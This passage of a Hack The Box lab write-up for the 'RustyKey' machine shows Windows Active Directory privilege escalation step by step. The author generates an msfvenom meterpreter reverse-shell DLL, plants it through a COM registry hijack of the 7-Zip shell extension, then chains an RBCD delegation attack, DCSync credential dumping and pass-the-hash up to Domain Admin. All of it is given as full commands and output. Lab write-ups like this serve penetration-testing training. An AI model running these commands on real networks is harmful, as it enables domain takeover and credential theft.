rustykey\ee.reed
```

> [!WARNING]
> You may see warnings like:
>
> - User profile directory for user ee.reed does not exist.
> - Logon for user is limited.
> These are expected when using CreateProcessWithLogonW(). To bypass certain limitations, you can use flags like:
>
> ```bash
> --bypass-uac --logon-type 8
> ```

### COM Hijacking via Registry

Unlike `evil-winrm`, which relies heavily on a working Kerberos ticket and correct SPN/service configurations, `RunasCs` uses direct logon impersonation APIs (`CreateProcessWithLogonW`) to spawn a child process under another user, avoiding ticket validation or complex UAC behaviors

The internal PDF mentioned that the **Support group** had **temporary registry modification rights**, specifically for troubleshooting archive-related functionality.

This prompted me to explore the possibility of a **COM Hijack** — a powerful and stealthy technique where registry keys controlling COM object behavior are **repointed to a malicious DLL**, leading to execution of arbitrary code, often as a higher-privileged user.

Since the PDF hints at registry changes related to compression and context menus, I searched for CLSIDs containing `"zip"`

```bash
PS C:\Windows\System32> reg query HKCR\CLSID /s /f "zip"
reg query HKCR\CLSID /s /f "zip"

HKEY_CLASSES_ROOT\CLSID\{23170F69-40C1-278A-1000-000100020000}
    (Default)    REG_SZ    7-Zip Shell Extension

HKEY_CLASSES_ROOT\CLSID\{23170F69-40C1-278A-1000-000100020000}\InprocServer32
    (Default)    REG_SZ    C:\Program Files\7-Zip\7-zip.dll

HKEY_CLASSES_ROOT\CLSID\{888DCA60-FC0A-11CF-8F0F-00C04FD7D062}
    (Default)    REG_SZ    Compressed (zipped) Folder SendTo Target
    FriendlyTypeName    REG_EXPAND_SZ    @%SystemRoot%\system32\zipfldr.dll,-10226

HKEY_CLASSES_ROOT\CLSID\{888DCA60-FC0A-11CF-8F0F-00C04FD7D062}\DefaultIcon
    (Default)    REG_EXPAND_SZ    %SystemRoot%\system32\zipfldr.dll

HKEY_CLASSES_ROOT\CLSID\{888DCA60-FC0A-11CF-8F0F-00C04FD7D062}\InProcServer32
    (Default)    REG_EXPAND_SZ    %SystemRoot%\system32\zipfldr.dll

HKEY_CLASSES_ROOT\CLSID\{b8cdcb65-b1bf-4b42-9428-1dfdb7ee92af}
    (Default)    REG_SZ    Compressed (zipped) Folder Context Menu

HKEY_CLASSES_ROOT\CLSID\{b8cdcb65-b1bf-4b42-9428-1dfdb7ee92af}\InProcServer32
    (Default)    REG_EXPAND_SZ    %SystemRoot%\system32\zipfldr.dll

HKEY_CLASSES_ROOT\CLSID\{BD472F60-27FA-11cf-B8B4-444553540000}
    (Default)    REG_SZ    Compressed (zipped) Folder Right Drag Handler

HKEY_CLASSES_ROOT\CLSID\{BD472F60-27FA-11cf-B8B4-444553540000}\InProcServer32
    (Default)    REG_EXPAND_SZ    %SystemRoot%\system32\zipfldr.dll

HKEY_CLASSES_ROOT\CLSID\{E88DCCE0-B7B3-11d1-A9F0-00AA0060FA31}\DefaultIcon
    (Default)    REG_EXPAND_SZ    %SystemRoot%\system32\zipfldr.dll

HKEY_CLASSES_ROOT\CLSID\{E88DCCE0-B7B3-11d1-A9F0-00AA0060FA31}\InProcServer32
    (Default)    REG_EXPAND_SZ    %SystemRoot%\system32\zipfldr.dll

HKEY_CLASSES_ROOT\CLSID\{ed9d80b9-d157-457b-9192-0e7280313bf0}
    (Default)    REG_SZ    Compressed (zipped) Folder DropHandler

HKEY_CLASSES_ROOT\CLSID\{ed9d80b9-d157-457b-9192-0e7280313bf0}\InProcServer32
    (Default)    REG_EXPAND_SZ    %SystemRoot%\system32\zipfldr.dll

End of search: 14 match(es) found.
```

Several entries pointed to zipfldr.dll (native Windows compressed folder handler) and 7-Zip.
The most promising CLSID was `{23170F69-40C1-278A-1000-000100020000}`
This corresponds to the 7-Zip Shell Extension. Its InProcServer32 path can be hijacked to point to a malicious DLL.

On my Kali box, I generated a malicious DLL with msfvenom

```bash
┌──(pullsec㉿pen-301101)-[~/ctf/HackTheBox/rustykey.htb]
└─$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<KALI-IP> LPORT=4444 -f dll -o pullsec.dll
```

> [!TIP]
> Make sure your LHOST matches your VPN interface (e.g., tun0). If you’re unsure, run ip a.

From Evil-WinRM, I uploaded the DLL

```powershell
*Evil-WinRM* PS C:\tmp> upload /home/pullsec/ctf/HackTheBox/rustykey.htb/pullsec.dll
                                        
Info: Uploading /home/pullsec/ctf/HackTheBox/rustykey.htb/pullsec.dll to C:\tmp\pullsec.dll
                                        
Data: 12288 bytes of 12288 bytes copied
                                        
Info: Upload successful!
```

Then I modified the registry to hijack the COM component

```powershell
*Evil-WinRM* PS C:\tmp> reg add "HKLM\Software\Classes\CLSID\{23170F69-40C1-278A-1000-000100020000}\InprocServer32" /ve /d "C:\tmp\pullsec.dll" /f
```

Although I successfully triggered the COM hijack and established a Meterpreter session, it didn’t last long

```bash
msf6 exploit(multi/handler) > run
[*] Started reverse TCP handler on 10.10.14.142:4444 
[*] Sending stage (203846 bytes) to 10.129.147.197
[*] Meterpreter session 2 opened (10.10.14.142:4444 -> 10.129.147.197:57795) at 2025-07-23 07:27:35 +0200

meterpreter > getuid
Server username: RUSTYKEY\mm.turner
meterpreter > 
[*] 10.129.147.197 - Meterpreter session 2 closed.  Reason: Died
```

After getting a short-lived `meterpreter` session as `mm.turner`, I used it to execute a RBCD attack (Resource-Based Constrained Delegation). The goal: impersonate the high-privileged user backupadmin using `IT-COMPUTER3$`, which I previously controlled.

<div style="display: flex; justify-content: center;">
  
</div>

From the meterpreter shell (via mm.turner), I launched PowerShell and granted delegation rights to IT-COMPUTER3$ over the Domain Controller object

```powershell
PS C:\Windows> Set-ADComputer -Identity DC -PrincipalsAllowedToDelegateToAccount IT-COMPUTER3$
Set-ADComputer -Identity DC -PrincipalsAllowedToDelegateToAccount IT-COMPUTER3$
PS C:\Windows> 
[*] 10.129.232.127 - Meterpreter session 1 closed.  Reason: Died
```

### Ticket Forgery & Domain Admin Access

This modified the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute of the DC computer object, allowing IT-COMPUTER3$ to impersonate any user when accessing services hosted by the DC (such as CIFS, RPC, WMI, etc.)

On my Kali box, I exported the ccache ticket environment variable and used getST to request a service ticket as backupadmin

```bash
┌──(pullsec㉿pen-301101)-[~/ctf/HackTheBox/rustykey.htb]
└─$ impacket-getST -spn 'cifs/dc.rustykey.htb' -impersonate backupadmin -dc-ip 10.129.232.127 -k 'rustykey.htb/IT-COMPUTER3$:Rusty88!'
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Impersonating backupadmin
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in backupadmin@cifs_dc.rustykey.htb@RUSTYKEY.HTB.ccache
```

```bash
┌──(pullsec㉿pen-301101)-[~/ctf/HackTheBox/rustykey.htb]
└─$ export KRB5CCNAME=~/ctf/HackTheBox/rustykey.htb/backupadmin@cifs_dc.rustykey.htb@RUSTYKEY.HTB.ccache 
```

With the valid TGS for backupadmin in hand, I used WMIExec to get a semi-interactive shell on the domain controller

```bash
┌──(pullsec㉿pen-301101)-[~/ctf/HackTheBox/rustykey.htb]
└─$ impacket-wmiexec -k -no-pass 'rustykey.htb/backupadmin@dc.rustykey.htb'
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
rustykey\backupadmin
```

Now operating as `backupadmin`, I performed a DCsync attack using secretsdump.py to extract NTLM hashes from the domain controller, including the one for `Administrator`

```bash
┌──(pullsec㉿pen-301101)-[~/ctf/HackTheBox/rustykey.htb]
└─$ impacket-secretsdump -k -no-pass 'rustykey.htb/backupadmin@dc.rustykey.htb'
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0x94660760272ba2c07b13992b57b432d4
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
...
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC
```

With the Administrator hash extracted, I generated a TGT and used Evil-WinRM to get full access as the domain administrator

```bash
┌──(pullsec㉿pen-301101)-[~/ctf/HackTheBox/rustykey.htb]
└─$ impacket-getTGT rustykey.htb/'Administrator' -hashes ':<Administrator hash>'
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in Administrator.ccache
```

```bash
┌──(pullsec㉿pen-301101)-[~/ctf/HackTheBox/rustykey.htb]
└─$ export KRB5CCNAME=~/ctf/HackTheBox/rustykey.htb/Administrator.ccache 
```

```bash
┌──(pullsec㉿pen-301101)-[~/ctf/HackTheBox/rustykey.htb]
└─$ evil-winrm -i dc.rustykey.htb -u 'Administrator' -r rustykey.htb 
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Warning: User is not needed for Kerberos auth. Ticket will be used
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents>
```

## Conclusion

In this challenge, we exploited a misconfigured Active Directory environment, starting from an initial `mm.turner` foothold obtained via a malicious DLL and Meterpreter payload.

Despite the unstable session, we managed to perform a **Resource-Based Constrained Delegation (RBCD)** attack by modifying the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute. This allowed us to impersonate the high-privileged `backupadmin` account using Kerberos S4U2self and S4U2proxy techniques.

With the impersonated ticket, we gained shell access via `wmiexec`, and proceeded to dump credentials from the domain controller using **DCSync**. Among these was the NT hash for the `Administrator` account, which we used to forge a TGT and establish a final session as **Domain Admin** through Evil-WinRM.

This machine highlights several real-world AD misconfigurations:

- Insecure delegation permissions on computer objects  
- Excessive privileges for non-privileged users  
- Improper access control to sensitive groups and attributes  
- The power of ticket-based impersonation and Kerberos abuse

**RustyKey** is an excellent demonstration of how minor AD misconfigurations — when chained together — can lead to **complete domain compromise**.
